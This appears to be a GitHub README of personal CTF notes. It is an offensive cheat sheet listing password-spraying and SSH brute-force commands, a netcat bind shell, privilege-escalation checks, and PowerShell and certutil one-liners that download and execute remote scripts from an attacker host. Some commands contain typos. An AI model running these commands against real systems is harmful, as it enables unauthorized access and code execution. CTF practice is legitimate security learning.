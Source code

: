 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs

Windows & *nix:
<p> password spraying:
<p> - crackmapexec [module] -u [users.txt] -p [passwords.txt] [ip or ip range]
<p> bruteforce (more options may be required, example used was SSH module):
<p> - medusa -h [ip] -U [users.txt] -P [passwords.txt] -M [module] [ip] 
</p>
</p>
<p> upgrade shell using python pty library and adds auto complete for steps 2+ :
<p> 1 - python -c 'import pty;pty.spawn("/bin/bash")'
<p> 2 - CTRL z
<p> 3 - stty raw -echo
<p> 4 - fg <enter key>
<p> 5 - export TERM=xterm

<p> known hosts ssh file will show all hosts the host has SSH'd into

<p> - command to reset a broke terminal session
<p> reset

<p> - mysql syntax for navigation:
<p> show databases; (shows available databases)
<p> use [database name]; (selects database to use)
<p> show tables; (shows tables in database)
<p> describe [table name]; (shows more information on values inside table)
<p> select [table value] from [table]; (shows items inside the table values of the table)
  
<p> - file upload (works with powershell and linux):
<p> curl http://[ip]:[port]/[file] -output [file]






*nix:
common privilege escalation techniques:
- seeing if any commands can be run as sude:
sudo -l
- check which programs are avilable on the system for priviledge escalation and send errors away from output
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
- download all FTP contents (--no-passive if passive is not allowed):
wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
- bind shell:
(victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
- listing file/ directory structure:
find . 
- listing file structure and look for specific file/ directory name
find . | grep -i <word to look for>
- show all running processes:
ss -lntp
- 







Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
